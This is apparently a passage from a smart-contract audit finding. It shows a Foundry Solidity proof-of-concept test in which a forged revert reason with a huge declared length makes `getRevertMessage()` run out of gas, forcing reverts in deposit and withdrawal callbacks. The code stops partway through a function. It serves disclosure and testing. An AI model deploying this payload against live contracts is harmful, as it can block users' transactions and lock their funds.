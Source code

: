 The following test shows how this can be used to cause a revert, even when the gas to the callback is limited. I show two cases - one where there is no external wrapping of the calldata, and one where there is. Most of the examples of `getRevertMessage()` are the unwrapped variety, but some like the ones for `executeDeposit()` and `executeWithdrawal()` are wrapped, and would require the attack to also be applied to the cancellation callback, since those are unwrapped:


```solidity
pragma solidity 0.8.17;

import "forge-std/Test.sol";

contract BigString is Test {

    function test_unwrapped() external view returns (uint256) {
        try this.strFakedString{gas:10240}() {
        //try this.strFakedString() {
        //try this.strBigString{gas:10240}() {
        //try this.strNoIssue() {
        } catch (bytes memory reasonBytes) {
            (string memory reason, /* bool hasRevertMessage */) = getRevertMessage(reasonBytes);
            return 1;
        }
        return 0;
    }
    
    function test_wrapped() external view returns (uint256) {
        try this.test_unwrapped() {
        } catch (bytes memory reasonBytes) {
            (string memory reason, /* bool hasRevertMessage */) = getRevertMessage(reasonBytes);
            return 1;
        }
        return 0;
    }

    function strNoIssue() external pure returns (string memory) {
        assembly {
            mstore(0, 0x20)
            mstore(0x27, 0x07536561706f7274)
            revert(0, 0x60)
        }
    }
    function strBigString() external pure returns (string memory) {
        bytes memory str = new bytes(100000000000);
	revert(string(str));
    }

    function strFakedString() external pure returns (string memory) {
        assembly {
            let free_mem_ptr := mload(64)
            mstore(free_mem_ptr, 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_mem_ptr, 4), 32)
            //mstore(add(free_mem_ptr, 36), 12) // original
            mstore(add(free_mem_ptr, 36), 100000000000) // out of gas
            mstore(add(free_mem_ptr, 68), "Unauthorizedzzzzzz")
            revert(free_mem_ptr, 100)
        }
    }

    function getErrorSelectorFromData(bytes memory data) internal pure returns (bytes4) {
        bytes4 errorSelector;

        assembly {
            errorSelector := mload(add(data, 0x20))
```